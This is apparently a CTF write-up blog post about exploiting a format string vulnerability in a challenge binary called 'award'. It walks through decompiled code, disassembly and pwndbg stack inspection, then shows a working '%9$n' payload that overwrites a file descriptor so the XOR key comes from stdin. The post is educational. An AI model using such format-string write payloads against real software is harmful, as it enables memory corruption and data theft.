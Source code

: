 +++
author = "Lenart"
title = "award - issue in printf formatters"
date = "2024-04-27"
description = "Everyone gets award."
tags = [
"ctf",
"pwn",
"binary exploitation",
]
+++

# Award

Everyone gets an award.

This challenge got me really crazy, despite it being super easy, but I got
the wrong direction because of my decompiler misdirecting (nice work Ghidra).
I later checked it in IDA and directly got the idea, but it still took me some
time to figure out how to exploit it practically.

So we are given an ELF binary file, protected with all the modern protections.
The binary is also stripped, so no debug symbols.

Here is a pseudocode of what it would look like:

```c
void xor(char *flag_buffer, char *random, char *ret_val) {
    int i;
    
    for (i = 0; i < 0x20; i = i + 1) {
      ret_val[i] = flag_buffer[i] ^ random[i];
    }
    return;
}

int main() {
    puts("Who the reward is for ?");
    fgets(user_input, 32, stdin);
    fd = open("flag.txt", 0);
    if (fd == -1) {
      perror("Error opening flag");
      exit(1);
    }
    for (i = 0; i < 32; i = i + 1) {
      *(undefined *)((long)&random_buffer + (long)i) = 0;
    }
    fd0 = open("/dev/urandom", 0);
    local_a0 = &fd0;
    printf(user_input);
    sVar1 = read(fd0, &random_buffer, 32);
    local_a4 = (undefined4)sVar1;
    read(fd, &flag_buffer, 32);
    xor((char *)&flag_buffer, (char *)&random_buffer, (char *)&ret_val);
    printf("Here is your secret award: ");
    for (local_ac = 0; local_ac < 0x20; local_ac = local_ac + 1) {
      putchar((uint)*(byte *)((long)&ret_val + (long)local_ac));
    }
    putchar(10);
}
```

So, the code basically reads some random bytes from `/dev/urandom`, which is
practically impossible to predict. It then reads the flag and XORs it with the
random bytes.

Interestingly, there is a user input buffer which we control. It is
then printed directly without any formatter. We can, without any hesitation, assume
it is a format string vulnerability.

Although it is clearly a format string vulnerability, it's not as easy as it sounds.
I spent too much time trying to dereference what is on the stack within a really wide range
because I was too n00b and didn't realize that when printing the buffer there is not
anything valuable on the stack. Actually, the flag and even random bytes are read after the printf.
That's when I realized the only valuable things we have on the stack are the file descriptors,
so we may control them and exploit to our gains.
My thought then was; let's set the second file descriptor, the one where we read to the random buffer, to 0.
This way we can control the key used to XOR the flag and bingo we got the flag.

So, the strategy is, set the file descriptor of the first write, which is referred to as `fd0` in the code,
to 0. We then feed the program with our controlled key, then we decrypt the flag using it.
You may know the XOR property:

```python
if a ^ b = c then c ^ b = a
```

The problem with `printf` is, if we don't specify the formatters and directly give the user input,
a malicious user can use their own formatters to confuse and exploit it. For example:
`printf(user_input)` a user can give `%s` as input, and printf thinks there is some string to
dereference and print out. By convention, it would look at registers until the 5th argument and then
go to the stack. So using `%s %s %s %s %s %s` would print out what's in the first five registers
and then go to the first value on the stack.

That is great, but unfortunately for us, there is nothing interesting to read in the registers,
neither on the stack. Fortunately for us, there is a formatter that allows us to write
arbitrary bytes to a location on the stack.

```bahs
man 3 printf
n      The number of characters written so far is stored into the integer pointed
       to by the corresponding argument.
```

So if we spot the location where the `fd0` is stored, we can eventually `write 0` to it,
using `%42$x` tells `printf` to print out what is at the location `42` instead of the first register
or the first value on the stack, so we need to find out where the `fd0` is stored on the stack.

So, running the program using GDB and starting as it is stripped, we can't just set a breakpoint at main.
We can spot where the actual main starts.

Here is what the disassembled code looks like:

```asm
   0x555555555307:	call   0x555555555040 <puts@plt>
   0x55555555530c:	mov    rdx,QWORD PTR [rip+0x2d5d]        # 0x555555558070 <stdin>
   0x555555555313:	lea    rax,[rbp-0x30]
   0x555555555317:	mov    esi,0x20
   0x55555555531c:	mov    rdi,rax
   0x55555555531f:	call   0x555555555080 <fgets@plt>
   0x555555555324:	mov    esi,0x0
   0x555555555329:	lea    rax,[rip+0xcec]        # 0x55555555601c
   0x555555555330:	mov    rdi,rax
   0x555555555333:	mov    eax,0x0
   0x555555555338:	call   0x5555555550a0 <open@plt>
   0x55555555533d:	mov    DWORD PTR [rbp-0xa0],eax
   0x555555555343:	cmp    DWORD PTR [rbp-0xa0],0xffffffff
   0x55555555534a:	jne    0x555555555365
   0x55555555534c:	lea    rax,[rip+0xcd2]        # 0x555555556025
   0x555555555353:	mov    rdi,rax
   0x555555555356:	call   0x5555555550b0 <perror@plt>
   0x55555555535b:	mov    edi,0x1
   0x555555555360:	call   0x5555555550c0 <exit@plt>
   0x555555555365:	mov    DWORD PTR [rbp-0xa8],0x0
   0x55555555536f:	jmp    0x555555555388
   0x555555555371:	mov    eax,DWORD PTR [rbp-0xa8]
   0x555555555377:	cdqe
   0x555555555379:	mov    BYTE PTR [rbp+rax*1-0x90],0x0
   0x555555555381:	add    DWORD PTR [rbp-0xa8],0x1
   0x555555555388:	cmp    DWORD PTR [rbp-0xa8],0x1f
   0x55555555538f:	jle    0x555555555371
   0x555555555391:	mov    esi,0x0
   0x555555555396:	lea    rax,[rip+0xc9b]        # 0x555555556038
   0x55555555539d:	mov    rdi,rax
   0x5555555553a0:	mov    eax,0x0
   0x5555555553a5:	call   0x5555555550a0 <open@plt>
   0x5555555553aa:	mov    DWORD PTR [rbp-0xac],eax
   0x5555555553b0:	lea    rax,[rbp-0xac]
   0x5555555553b7:	mov    QWORD PTR [rbp-0x98],rax
   0x5555555553be:	lea    rax,[rbp-0x30]
   0x5555555553c2:	mov    rdi,rax
   0x5555555553c5:	mov    eax,0x0
   0x5555555553ca:	call   0x555555555060 <printf@plt>
```

The `fgets` is where we put our input (actually it reads up to 32 bytes), and `printf` is where we are interested in,
so we put a breakpoint right before hitting it.

```bash
pwndbg> b *0x5555555553ca
Breakpoint 2 at 0x5555555553ca
pwndbg> c
Continuing.
Who the reward is for ?
AAAAAAAA
```

```bash
pwndbg> x/20gx $rsp
0x7fffffffe4b0:	0x0000000400008000	0x0000000000000020
0x7fffffffe4c0:	0x0000000000000003	0x00007fffffffe4b4
0x7fffffffe4d0:	0x0000000000000000	0x0000000000000000
0x7fffffffe4e0:	0x0000000000000000	0x0000000000000000
0x7fffffffe4f0:	0x0000000000000000	0x0000000000000000
0x7fffffffe500:	0x0000000000000000	0x0000000000000000
0x7fffffffe510:	0x0000000000000000	0x000000000000000
```

It took me a little time to figure out where `fd0` was. I could already see that `0x7fffffffe4c0`
at the first 8 bytes contains the file descriptor of the flag file, which is 3. I thought logically it would
be 4 for fd0 as it is opened right after the flag. I just played around a little to find it out.

After navigating a bit, I figured that the second 8 bytes is where fd0 is stored.

```bash
pwndbg> x 0x00007fffffffe4b4
0x7fffffffe4b4:	0x0000002000000004
```

It looked strange at first, but that's it.

So we know the first 5 parameters are passed by registers to printf, so the first value
on the stack is the 6th for printf. Thus, writing `%6$x` would print out `0x0000000400008000`.
What we are interested in is the 9th value, `0x00007fffffffe4b4`.

```bas
~/D/c/i/p/award ❯❯❯ ./award
Who the reward is for ?
%9$n

aaaaaaaaaaaaaaaaaaaaaaaa
Here is your secret award: kaaaaaaa
~/D/c/i/p/award ❯❯❯
```

As you see, we managed to write from stdin, and that is used to XOR the secret. From now
on, it takes a simple exploit script to decrypt the flag :).


